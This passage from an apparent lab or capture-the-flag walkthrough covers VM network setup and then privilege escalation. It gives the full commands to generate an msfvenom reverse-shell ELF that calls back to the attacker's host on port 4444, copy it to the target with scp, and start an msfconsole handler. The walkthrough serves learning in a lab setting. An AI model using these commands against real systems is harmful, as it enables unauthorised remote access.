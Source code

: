 ```bash
ping 10.37.178.115
```

With the `ping` command still running on the VM, run the following command on your host machine:

```bash
sudo tcpdump | grep ICMP
```

Once IP addresses start showing up, you can quit both the `tcpdump` and the `ping` with Ctrl-C.  The IP address that does not match the one you were pinging is the new IP address of your VM, and the one you will want to SSH into from now on.


#### Crafting a Payload

Now that we have access to the machine reconfigured, we can get back to privilege escalation.  The reason we wanted to set up the Bridged Adapter sooner rather than later is that the reverse shell we are about to create will be reaching out the host machine using its IP address.  If we were to change the network later, it would change which IP address we use to communicate with our host machine.  Using Metasploit's `msfvenom`, we can easily craft our payload to send to the VM.  (You could probably just use a `netcat` script for this part instead, but the quality of the interaction once you have a shell wouldn't be as good without some extra work.)

On my host machine I used the following command to create the payload:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.37.178.115 LPORT=4444 -f elf -o reverseshell
```

Here is an explanation of the different options being used:
- `-p linux/x64/shell_reverse_tcp` - This specifies which payload type to use.  The one used here will launch a reverse shell and will be designed to run on a 64-bit machine running Linux.
- `LHOST=10.37.178.115` - `LHOST` stands for `local host` and is used to specify which address the payload should communicate with.  It should be set to the IP address of your host machine.
- `LPORT=4444` - `LPORT` stands for `local port` and is similarly used to specify how the payload should communicate with our host machine.  If the IP is telling the payload which address it should go to, the port is essentially telling it which door it should be using at that address.  `4444` is typically the default port used by `msfconsole`.
- `-f elf` - Output the payload as an Executable and Linkable Format (ELF) file, which can be executed on Linux.
- `-o reverseshell` - Save the payload as a file called `reverseshell`

Now that you've created a payload, you can send it over to the target machine using `scp`:

```bash
scp reverseshell james_bond@10.37.147.110:/home/Shared/
```

Before we execute start the reverse shell, we will want to set up a listener on our host machine.  Since we used an `msfvenom` payload, we will use `msfconsole` to listen for the shell. After launching `msfconsole` in another window, enter the following commands (substituting in your own machines IP address) to configure the options for the handler:

```bash
use multi/handler
set payload linux/x64/shell_reverse_tcp
set LHOST 10.37.178.115
run
```
